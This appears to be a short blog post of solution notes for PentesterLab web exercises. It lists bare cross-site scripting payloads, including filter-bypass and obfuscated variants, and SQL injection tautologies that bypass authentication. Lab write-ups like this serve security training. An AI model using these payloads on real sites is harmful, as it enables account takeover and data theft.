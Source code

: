 ```yaml
---
layout: post
title: Pentesterlab.com Web 1
---
```

#XSS
1. ?name=<script>alert('here')</script>
2. ?name=<script<script>>alert('here')<</script>/script>
3. ?name=<script<script>>alert('here')<</script>/script>
4. ?name=test<a href="" onmouseover="alert('hi')">test</a>
5. ?name=test<a href="" onmouseover="prompt('hi')">test</a> OR ?name=test<a href="" onmouseover="eval(String.fromCharCode('097', '108', '101', '114', '116', '040', '039', '104', '105', '039', '041'));">test</a>
7. ?name=";alert("hi");var test = "
8. ?name=';alert('hi');var test = '
9. &quot;><script>alert('hi')</script>
10. >#<script>alert(1);</script>

#SQLi
1. root' or 1 = 1 or '' = '
2. root'%09or%09''='
3. root'/**/or/**/''='
4. 2 or 1 = 1
5. 2 or 1 = 1
6. 2 or 1 = 1

